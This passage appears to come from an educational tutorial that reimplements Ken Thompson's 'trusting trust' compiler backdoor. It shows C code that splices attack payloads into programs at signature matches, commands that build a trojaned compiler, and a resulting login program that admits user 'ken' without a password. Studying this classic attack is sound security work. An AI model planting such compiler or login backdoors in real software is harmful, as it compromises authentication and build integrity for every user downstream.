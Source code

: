 ```c
    sprintf(buf, "gcc ./temp-out.c -o %s", outname);
    if(system(buf) != 0)
        error("system failed\n");
}
```

To insert the `login_attack` code, we simply do some ugly C string manipulation:

```c
    char *login_sig_loc = strstr(program, login_sig);
    if (login_sig_loc != NULL) {
        static char tmp[8*1024*1024 + 1];
        size_t login_attack_offset = login_sig_loc - program + strlen(login_sig);
        strcpy(tmp, program + login_attack_offset);
        strcpy(program + login_attack_offset, login_attack);
        strcpy(program + login_attack_offset + strlen(login_attack), tmp);
    }
```

After doing this, we can compile a hacked `login` program with our hacked compiler `step2/trojan-cc1.c`:

```shell
# First compile our hacked compiler using gcc
gcc -Og -g -Wall -Wno-unused-variable trojan-cc1.c -o trojan-cc1

# Compile login.c with our hacked trojan-cc1 compiler
./trojan-cc1 login.c -o login-attacked

# Run the attacked login program
./login-attacked
```

Now we should be able to log in with the username `ken`, without needing to enter a password:

```text
user: ken
successful login: <ken>
```

Naturally the `compiler_attack` is similar:

```c
    char *compile_sig_loc = strstr(program, compile_sig);
    if (compile_sig_loc != NULL) {
        static char tmp[8*1024*1024 + 1];
        size_t compile_attack_offset = compile_sig_loc - program + strlen(compile_sig);
        strcpy(tmp, program + compile_attack_offset);
        strcpy(program + compile_attack_offset, compile_attack);
        strcpy(program + compile_attack_offset + strlen(compile_attack), tmp);
    }
```

We can do the same thing to compile our identity compiler `identity-cc.c` with our `trojan-cc1` compiler.

```shell
# Compile identity-cc.c with our hacked trojan-cc1 compiler
./trojan-cc1 identity-cc.c -o cc-attacked

# Use the attacked compiler program to compile login.c
./cc-attacked login.c -o login
```
